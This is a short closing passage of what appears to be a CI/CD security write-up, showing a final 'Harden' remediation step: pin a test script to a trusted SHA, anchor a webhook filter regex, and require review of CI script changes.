|  4   | **Harden**      | Update `buildspec.yml` to pin `tests/run.sh` to a trusted SHA and anchor the webhook regex to `^17531$` |
|      |                 | Implement mandatory code review for any changes to CI scripts before merge.                              |

**Thanks for Reading!**